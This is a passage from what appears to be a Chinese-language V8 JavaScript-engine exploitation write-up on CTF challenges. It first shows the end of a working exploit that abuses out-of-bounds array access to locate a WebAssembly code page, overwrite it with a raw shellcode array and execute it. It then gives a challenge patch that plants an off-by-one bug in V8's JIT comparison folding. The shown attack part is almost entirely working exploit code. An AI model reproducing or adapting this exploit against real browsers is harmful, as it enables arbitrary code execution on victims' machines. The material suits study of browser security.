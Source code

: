 ```
   var mobj = obj_arr[0];
   return mobj;
`}`

const wasmCode = new Uint8Array([0x00,0x61,0x73,0x6D,0x01,0x00,0x00,0x00,0x01,0x85,0x80,0x80,0x80,0x00,0x01,0x60,0x00,0x01,0x7F,0x03,0x82,0x80,0x80,0x80,0x00,0x01,0x00,0x04,0x84,0x80,0x80,0x80,0x00,0x01,0x70,0x00,0x00,0x05,0x83,0x80,0x80,0x80,0x00,0x01,0x00,0x01,0x06,0x81,0x80,0x80,0x80,0x00,0x00,0x07,0x91,0x80,0x80,0x80,0x00,0x02,0x06,0x6D,0x65,0x6D,0x6F,0x72,0x79,0x02,0x00,0x04,0x6D,0x61,0x69,0x6E,0x00,0x00,0x0A,0x8A,0x80,0x80,0x80,0x00,0x01,0x84,0x80,0x80,0x80,0x00,0x00,0x41,0x2A,0x0B]);
const shellcode = new Uint32Array([186,114176,46071808,3087007744,41,2303198479,3091735556,487129090,16777343,608471368,1153910792,4132,2370306048,1208493172,3122936971,16,10936,1208291072,1210334347,50887,565706752,251658240,1015760901,3334948900,1,8632,1208291072,1210334347,181959,565706752,251658240,800606213,795765090,1207986291,1210320009,1210334349,50887,3343384576,194,3913728,84869120]);
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule);
var func = wasmInstance.exports.main;

var d = addressOf(func);
var wasm_shellcode_ptr_addr_h = u64_h(d);
var wasm_shellcode_ptr_addr_l = u64_l(d) - 0x1 + 0x38;

oob_double_arr[0x11] = p64f(0,0xffff);
oob_double_arr[0x12] = p64f(wasm_shellcode_ptr_addr_l,wasm_shellcode_ptr_addr_h);

var adv = new DataView(arb_buf);
var wasm_shellcode_addr_l = adv.getUint32(0,true);
var wasm_shellcode_addr_h = adv.getUint32(4,true);
print('wasm_shellcode_addr=' + wasm_shellcode_addr_h.toString(16) + wasm_shellcode_addr_l.toString(16));
oob_double_arr[0x12] = p64f(wasm_shellcode_addr_l,wasm_shellcode_addr_h);
//替换wasm的shellcode
for (var i=0;i&lt;shellcode.length;i++) `{`
   adv.setUint32(i*4,shellcode[i],true);
`}`
//执行shellcode
func();
```



## 0x04 JIT中的OOB

### <a class="reference-link" name="0x04.00%20qwb2019-final-groupupjs"></a>0x04.00 qwb2019-final-groupupjs

#### <a class="reference-link" name="patch%E5%88%86%E6%9E%90"></a>patch分析

```
diff --git a/src/compiler/machine-operator-reducer.cc b/src/compiler/machine-operator-reducer.cc
index a6a8e87cf4..164ab44fab 100644
--- a/src/compiler/machine-operator-reducer.cc
+++ b/src/compiler/machine-operator-reducer.cc
@@ -291,7 +291,7 @@ Reduction MachineOperatorReducer::Reduce(Node* node) `{`
       if (m.left().Is(kMaxUInt32)) return ReplaceBool(false);  // M &lt; x =&gt; false
       if (m.right().Is(0)) return ReplaceBool(false);          // x &lt; 0 =&gt; false
       if (m.IsFoldable()) `{`                                    // K &lt; K =&gt; K
-        return ReplaceBool(m.left().Value() &lt; m.right().Value());
+        return ReplaceBool(m.left().Value() &lt; m.right().Value() + 1);
       `}`
       if (m.LeftEqualsRight()) return ReplaceBool(false);  // x &lt; x =&gt; false
       if (m.left().IsWord32Sar() &amp;&amp; m.right().HasValue()) `{`
```
